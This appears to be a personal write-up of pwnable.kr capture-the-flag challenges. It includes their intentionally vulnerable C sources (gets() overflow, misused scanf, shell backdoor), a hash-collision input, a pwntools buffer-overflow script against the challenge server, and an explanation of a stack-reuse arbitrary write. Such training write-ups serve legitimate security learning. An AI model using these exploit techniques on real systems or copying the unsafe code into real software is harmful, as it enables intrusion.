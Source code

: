 # pwn.kr

## 01 fd
fd == 	0 -> stdin;
	1 -> stdout;
	2 -> stderror;

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```
## 02 col
```sh
./col `python -c "print '\x01' * 16  + '\xE8' + '\x05' + '\xd9' + '\x1D' " `
```
hash collision, just find the hash value and fake an input to reach the value.

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```
## 03 bof
bof vulnerability with out limitation.
A backdoor, overwriting the local `key` valuable is all you need.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

here is the exp:
```py
#!/bin/python3

from pwn import *

# io = process('./bof')
io = remote('pwnable.kr', 9000)
# elf = ELF('./bof')

payload = b''
payload += p32(0xcafebabe) * 20

io.sendlineafter(b'me : ', payload)

io.interactive()
```

## 04 flag

reverse challenge..  a UPX packer related tool can solve this problem easily...
sry.. 

https://www.52pojie.cn/forum.php?mod=viewthread&tid=1148556

thx, my BROTHER lol

## 05 passcode

interesting challenge. 

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

observe the function `login()`, and during the initialization of passcode1/2, `scanf` is used not correctly, app takes the value of `passcode` as an address, and read a `%d` into this address.

then we find that the value of passcode can be controlled by STACK reuse mechanism.

Due to the function `welcode()` and `login()`'s sharing caller, they share the same stack's bottom, that is bp, which means the control of passcode1/2 can be done even before the calling of `login()`. 

In the function 'welcome()', we input a much-longer data stream than 'login()', which means the whole stack frame of 'login()' can be fully controlled by us. 

Setting the passcode1 to 0x1000 in `welcode()`, and inputting '0x2000' during `login()`, then (int)0x2000 will be writed into address 0x1000. that's an arbitrary write!

then, easy to hijack the control flow to the `system()` backdoor provided by this app.

